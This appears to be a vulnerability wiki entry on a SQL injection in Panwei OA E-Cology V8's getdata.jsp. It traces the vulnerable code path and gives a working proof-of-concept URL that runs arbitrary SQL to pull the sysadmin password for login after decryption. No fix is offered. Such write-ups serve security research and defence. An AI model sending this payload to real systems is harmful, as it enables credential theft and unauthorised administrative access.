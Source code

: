 # Panwei OA E-Cology getdata.jsp SQL injection vulnerability

## Vulnerability Description

Panwei OA V8 has SQL injection vulnerability, and attackers can obtain administrator and server permissions through vulnerabilities.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Panwei OA V8</span>

## Network surveying and mapping



## Vulnerability reappears

In getdata.jsp, directly hand over the request object to

`weaver.hrm.common.AjaxManager.getData(HttpServletRequest, ServletContext) :` 

Method processing



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/fanwei-17.png)



In the getData method, determine whether the cmd parameter in the request is empty. If it is not empty, call the proc method



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/fanwei-18.png)





In the proc method, judge the cmd parameter value. When the cmd value is equal to getSelectAllId, the two parameter values ​​of sql and type are obtained from the request, and the parameters are passed into the getSelectAllIds(sql, type) method

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/fanwei-19.png)





POC

```plain
https://xxx.xxx.xxx.xxx/js/hrm/getdata.jsp?cmd=getSelectAllId&sql=select%20password%20as%20id%20from%20HrmResourceManager
```

Query the password field in the HrmResourceManager table, and the page returns the value of the first record of the database (sysadmin user password)

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/fanwei-20.png)



After decryption, you can log in to the system

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/fanwei-21.png)